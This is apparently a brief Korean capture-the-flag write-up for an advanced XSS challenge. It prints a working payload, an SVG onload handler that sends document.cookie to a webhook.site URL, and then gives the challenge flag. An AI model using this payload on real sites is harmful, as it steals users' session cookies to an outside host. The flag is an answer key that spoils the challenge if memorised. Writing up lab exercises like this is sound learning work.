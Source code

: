 # XSS (Adv)
일반 XSS 문제에서 404 Page 등 문제가 조금 수정되었지만 주요 코드들은 그대로이길래 일반 XSS 문제에서 `vuln?param=`만 추가하여 요청을 보냈더니 flag가 전송되었다.

`vuln?param=<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>`

## Flag
flag{404_not_found_X_X}
